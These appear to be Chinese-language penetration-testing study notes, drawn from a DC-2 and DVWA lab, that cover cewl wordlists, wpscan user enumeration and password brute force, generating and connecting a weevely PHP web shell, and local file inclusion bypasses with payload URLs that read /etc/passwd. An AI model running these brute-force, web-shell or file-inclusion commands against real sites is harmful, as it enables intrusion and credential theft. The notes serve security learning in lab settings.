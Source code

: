 cewl <http://www.ignitetechnologies.in/>

使用-w参数来将密码字典存储为text文件

**wpscan(针对于wordpress论坛的漏洞扫描工具)**

列举用户

wpscan \--url [[http://www.baidu.com]{.underline}](http://www.baidu.com)
-e u

黄色感叹号表示信息泄露级别，红色表示威胁程度较高的漏洞

wpscan爆破

wpscan \--url dc-2 -U dc-2users.list -P dc-2pass.dic

更改域名，才能访问

开启HTTP服务，输入ip无法连接服务器且IP变域名

说明DNS服务器无法解析该域名

所以我们需要修改hosts文件内容，使域名wordy对应IP

Kali 生产木马 weevely generate pass ./pass.php 连接密码为pass

连接马

weevely  \<url\>  \<password\>

**文件包含**

问号绕过，井号绕过，空格绕过，双写绕过

**远程包含**

**如果使用不了get可以改成post提交**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image49.png){width="5.760416666666667in"
height="3.2402351268591425in"}

**file**

条件：allow_url_fopen: off/on allow_url_include: off/on

Linux：h[ttp://127.0.0.1/FI/LFI.php?file=file:///etc/passwd绝](http://127.0.0.1/FI/LFI.php?file=file:///etc/passwd)对路径

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image50.png){width="5.760416666666667in"
height="3.2402351268591425in"}

Windows：h[ttp://192.168.6.128:8001/vulnerabilities/fi/?page=file:///C:\\](http://192.168.6.128:8001/vulnerabilities/fi/?page=file:///C:)DVWA-master\\vulnerabilities\\fi\\1.txt绝对路径（注意可以POST传参）

![4dd48db360ebcd6629022e8c45bece8a.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image51.jpeg){width="5.760416666666667in"
height="4.5879429133858265in"}

**zip(没成功过)**

条件：allow_url_fopen: off/on allow_url_include: off/on
